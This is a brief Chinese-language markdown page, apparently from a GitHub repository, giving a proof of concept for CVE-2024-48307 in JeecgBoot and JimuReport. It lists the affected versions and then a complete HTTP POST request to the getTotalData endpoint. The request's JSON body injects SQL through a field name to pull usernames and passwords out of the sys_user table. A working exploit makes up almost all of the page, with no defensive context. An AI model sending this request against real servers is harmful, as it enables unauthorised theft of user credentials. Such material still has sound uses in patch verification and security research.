

## **影响版本**

jimureport-spring-boot-starter.version<=1.8.1

JeecgBoot v3.7.1

## CVE-2024-48307 POC

```http
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 284

{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(username,0x3a,password)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```

